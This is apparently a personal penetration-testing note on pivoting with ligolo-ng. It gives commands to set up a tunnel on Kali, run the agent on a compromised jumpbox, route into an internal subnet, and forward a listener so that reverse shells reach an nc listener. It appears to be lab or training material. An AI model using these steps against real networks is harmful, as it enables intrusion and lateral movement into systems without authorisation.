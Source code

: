 # Download
---
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.1

# Setup on Kali
----
- **Create a tunnel interface to work with ligolo-ng** (needs to be done every time)
	- `sudo ip tuntap add user drasstrange mode tun ligolo`
	- `sudo ip link set ligolo up`
	- ![[Pasted image 20250509155200.png]]
- Run **Proxy on Kali**:
	- `./proxy -selfcert`

# Setup on Compromised Victim / Jumpbox (with Public IP)
---
![[Pasted image 20250509154740.png]]

- We are trying to access `10.0.1.0/24`IP
- Copy the **ligolo-ng agent here and run**:
	- `./agent -connect <our_ip>:<port_to_connect_with> -ignore-cert`For ex:-
		- `/agent -connect 10.50.82.176:11601 -ignore-cert`
	- ![[Pasted image 20250509161837.png]]
	- ![[Pasted image 20250509161931.png]]
- **Select the session** using: `session` and enter
	- ![[Pasted image 20250509164759.png]]
- **Add a networking route**:
	- `sudo ip route add <NETWORK_IP>/<SUBNET> dev ligolo`
		- `sudo ip route add 10.0.1.0/24 dev ligolo`
- **Start the tunnel in ligolo-ng terminal**:
	- `start`
	- ![[Pasted image 20250509164905.png]]

# Reverse connection from Internal machines
---
- **Forward Network Traffic on port 30000 on jumpbox to port 10000 of Kali machine**
- `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`
	- `0.0.0.0:30000` -> Binding Address on jumpbox
	- `127.0.0.1:10000` -> Forwarded to our port 1000
- `nc -lnvp 10000` => On Kali
- We would try to **connect locally on port 30000 of jumpbox on our internal network machine as it would be forwarded to 10000 of Kali** 